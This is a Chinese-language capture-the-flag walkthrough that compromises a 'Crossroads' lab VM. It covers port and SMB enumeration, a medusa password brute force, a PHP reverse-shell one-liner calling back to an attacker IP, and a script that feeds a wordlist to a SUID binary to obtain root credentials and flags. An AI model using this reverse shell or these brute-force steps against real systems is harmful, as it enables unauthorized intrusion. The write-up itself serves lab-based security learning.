


# 信息搜集
主机发现

```
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l 
192.168.21.3    08:00:27:b1:a0:3f       (Unknown)

```
端口扫描

```
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 23:10 EST
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00047s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:B1:A0:3F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.98 seconds
┌──(kali㉿kali)-[~]
└─$ nmap -sU --min-rate 10000 -p- 192.168.21.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 23:12 EST
Warning: 192.168.21.3 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.0012s latency).
Not shown: 65456 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT    STATE SERVICE
137/udp open  netbios-ns
MAC Address: 08:00:27:B1:A0:3F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 73.05 seconds
┌──(kali㉿kali)-[~]
└─$ nmap -sV -O -p80,139,445 192.168.21.3 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 23:11 EST
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00023s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:B1:A0:3F (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: CROSSROADS

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
┌──(kali㉿kali)-[~]
└─$ nmap -sU -sV -O -p137 192.168.21.3        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 23:14 EST
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00033s latency).

PORT    STATE SERVICE    VERSION
137/udp open  netbios-ns Samba nmbd netbios-ns (workgroup: WORKGROUP)
MAC Address: 08:00:27:B1:A0:3F (Oracle VirtualBox virtual NIC)
Too many fingerprints match this host to give specific OS details
Network Distance: 1 hop
Service Info: Host: CROSSROADS

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds

```
# 漏洞利用
先看一下80端口


目录扫描

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.3 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.3
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/robots.txt           (Status: 200) [Size: 42]
/server-status        (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```
/robots.txt



/crossroads.png


没看到什么特别的，用enum4linux看一下smb

```
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 192.168.21.3
=================================( Share Enumeration on 192.168.21.3 )=================================                        
                                                                
                                                                
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        smbshare        Disk      
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            CROSSROADS
        
S-1-22-1-1000 Unix User\albert (Local User)

```
爆破一下

```
┌──(kali㉿kali)-[~]
└─$ medusa -h 192.168.21.3 -u albert -P /usr/share/wordlists/rockyou.txt -M smbnt
ACCOUNT FOUND: [smbnt] Host: 192.168.21.3 User: albert Password: bradley1 [SUCCESS (ADMIN$ - Share Unavailable)]

```
登录smb服务

```
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.21.3/smbshare/ -U albert%bradley1

```
写一个shell脚本上传上去

```
php -r '$sock=fsockopen("192.168.21.13",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

```
反弹成功

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234         
listening on [any] 1234 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.3] 51546
/bin/sh: 0: can't access tty; job control turned off
$ 

```
# 提权
先获得一个交互式shell

```
$ python -c "import pty;pty.spawn('/bin/bash');"
albert@crossroads:/home/albert/smbshare$ 

```
user.txt

```
albert@crossroads:/home/albert/smbshare$ cd ..
cd ..
albert@crossroads:/home/albert$ ls -la
ls -la
total 1584
drwxr-xr-x 3 albert albert    4096 Mar  2  2021 .
drwxr-xr-x 3 root   root      4096 Mar  2  2021 ..
-rwsr-xr-x 1 root   root     16664 Mar  2  2021 beroot
-rw-r--r-- 1 albert albert 1583196 Mar  2  2021 crossroads.png
drwxrwxrwx 2 albert albert    4096 Mar  8 22:53 smbshare
-r-x------ 1 albert albert      32 Mar  2  2021 user.txt
albert@crossroads:/home/albert$ cat user.txt
cat user.txt
912D12370BBCEA67BF28B03BCB9AA13F

```
看一下有没有可以利用的

```
albert@crossroads:/home/albert$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
/home/albert/beroot

```
看一下beroot

```
albert@crossroads:/home/albert$ ./beroot
./beroot
TERM environment variable not set.
enter password for root
-----------------------

password: a
a
wrong password!!!

```
用stegoveritas看一下图片

```
┌──(kali㉿kali)-[~]
└─$ stegoveritas crossroads.png

```
看着好像是个字典



从大佬那里拿过来一个脚本

```
#!/bin/bash
 
# 检查 1.txt 文件是否存在
if [ ! -f "1.txt" ]; then
    echo "Error: pass.txt file not found."
    exit 1
fi
 
# 使用 while 循环逐行读取 1.txt 文件
while IFS= read -r pass; do
    # 使用 printf 传递密码给 ./beroot 程序
    printf "%s\n" "$pass" | ./beroot
    # 检查 ./beroot 程序的返回状态码
    if [ $? -ne 0 ]; then
        echo "Error: Failed to execute ./beroot with password: $pass"
    fi
done < 1.txt

```
通过smb把文件都传上去

```
albert@crossroads:/home/albert$ ls
ls
1.py  1.txt  beroot  crossroads.png  smbshare  user.txt

```
运行脚本

```
albert@crossroads:/home/albert$ ./1.py

```
多出了一个文件，里面有root密码

```
albert@crossroads:/home/albert$ ls -la
ls -la
total 1948
drwxr-xr-x 3 albert albert    4096 Mar  9 00:01 .
drwxr-xr-x 3 root   root      4096 Mar  2  2021 ..
-rwxr--r-- 1 albert albert     460 Mar  8 23:55 1.py
-rwxr--r-- 1 albert albert  363321 Mar  8 23:52 1.txt
-rwsr-xr-x 1 root   root     16664 Mar  2  2021 beroot
-rw-r--r-- 1 albert albert 1583196 Mar  2  2021 crossroads.png
-rw-rw-rw- 1 root   albert      20 Mar  9 00:01 rootcreds
drwxrwxrwx 2 albert albert    4096 Mar  9 00:01 smbshare
-r-x------ 1 albert albert      32 Mar  2  2021 user.txt
albert@crossroads:/home/albert$ ls -la
ls -la
total 1948
drwxr-xr-x 3 albert albert    4096 Mar  9 00:01 .
drwxr-xr-x 3 root   root      4096 Mar  2  2021 ..
-rwxr--r-- 1 albert albert     460 Mar  8 23:55 1.py
-rwxr--r-- 1 albert albert  363321 Mar  8 23:52 1.txt
-rwsr-xr-x 1 root   root     16664 Mar  2  2021 beroot
-rw-r--r-- 1 albert albert 1583196 Mar  2  2021 crossroads.png
-rw-rw-rw- 1 root   albert      20 Mar  9 00:01 rootcreds
drwxrwxrwx 2 albert albert    4096 Mar  9 00:01 smbshare
-r-x------ 1 albert albert      32 Mar  2  2021 user.txt
albert@crossroads:/home/albert$ cat rootcreds
cat rootcreds
root
___drifting___

```
切换root

```
albert@crossroads:/home/albert$ su root       
su root
Password: ___drifting___

root@crossroads:/home/albert# 

```
root.txt

```
root@crossroads:/home/albert# cd ~
cd ~
root@crossroads:~# ls -la
ls -la
total 32
drwx------  4 root root 4096 Mar  9 00:05 .
drwxr-xr-x 18 root root 4096 Dec 17  2020 ..
-rw-------  1 root root   57 Mar  6  2021 .bash_history
-rwx------  1 root root  345 Mar  6  2021 beroot.sh
-rw-r--r--  1 root root   20 Mar  2  2021 creds
drwx------  3 root root 4096 Mar  9 00:05 .gnupg
drwxr-xr-x  2 root root 4096 Mar  2  2021 passwd
-r-x------  1 root root   32 Mar  2  2021 root.txt
root@crossroads:~# cat root.txt
cat root.txt
876F96716C3606B09A89F0FA3C1D52EB

```
